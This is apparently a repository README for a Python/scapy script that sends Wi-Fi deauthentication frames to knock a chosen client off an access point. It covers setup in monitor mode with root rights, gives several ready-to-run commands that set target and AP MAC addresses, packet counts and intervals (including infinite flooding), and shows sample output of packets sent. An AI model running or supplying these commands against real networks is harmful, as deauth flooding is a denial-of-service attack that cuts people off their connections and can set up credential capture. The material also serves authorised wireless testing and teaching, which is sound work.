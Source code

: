 # Wi-Fi Deauthentication

Script to deauthenticate Wi-Fi connections.

## Prepare environment

- you can use Python virtualenv
- Python3.x is needed
- Wi-Fi interface must be in "Monitor Mode" (_you can read [here](https://softwaretester.info/wifi-monitor-mode-basics/) how to do_)
- root rights required (_or via sudo_)

```shell
# install needed packages
$ sudo apt install python3-pip python3-venv

# create and change into Project directory
$ mkdir -p ~/Projects/WifiDeauth && cd ~/Projects/WifiDeauth

# create virtualenv
$ virtualenv -p python3 venv
# or
$ python3 -m venv venv

# activate virtualenv
$ . venv/bin/activate

# install requirements
(venv) $ pip install -r requirements.txt
# or
(venv) $ pip install scapy

# list packages (optional)
(venv) $ pip freeze

# make file executable
(venv) $ chmod u+x WifiDeauth.py 
```

## Run Wi-Fi Deauthenticator

just run it...

```shell
# show help (optional)
(venv) $ sudo venv/bin/python ./WifiDeauth.py --help

# start sending deauth packets from '80:30:dc:c2:dd:62' to '55:67:51:c3:2c:b4' every 100ms infinite
(venv) $ sudo venv/bin/python ./WifiDeauth.py wlan1 '55:67:51:c3:2c:b4' '80:30:dc:c2:dd:62'

# start sending deauth packets from '80:30:dc:c2:dd:62' to '55:67:51:c3:2c:b4' every 100ms infinite
(venv) $ sudo venv/bin/python ./WifiDeauth.py wlan1 '55:67:51:c3:2c:b4' '80:30:dc:c2:dd:62' -n 0

# start sending deauth packets from '80:30:dc:c2:dd:62' to '55:67:51:c3:2c:b4' every 200ms infinite
(venv) $ sudo venv/bin/python ./WifiDeauth.py wlan1 '55:67:51:c3:2c:b4' '80:30:dc:c2:dd:62' -i '0.2'

# start sending deauth 30 packets from '80:30:dc:c2:dd:62' to '55:67:51:c3:2c:b4' every 100ms
(venv) $ sudo venv/bin/python ./WifiDeauth.py wlan1 '55:67:51:c3:2c:b4' '80:30:dc:c2:dd:62' -n 30

# start sending deauth 50 packets from '80:30:dc:c2:dd:62' to '55:67:51:c3:2c:b4' every 300ms
(venv) $ sudo venv/bin/python ./WifiDeauth.py wlan1 '55:67:51:c3:2c:b4' '80:30:dc:c2:dd:62' -n 50 -i '0.3'
```

to interrupt press [CTRL + c]

## Example output

some example from my terminal...

```shell
Sending 50 frames every 0.3s to 55:67:51:c3:2c:b4 from 80:30:dc:c2:dd:62
..................................................
Sent 50 packets.
```

[Go back](../README.md)
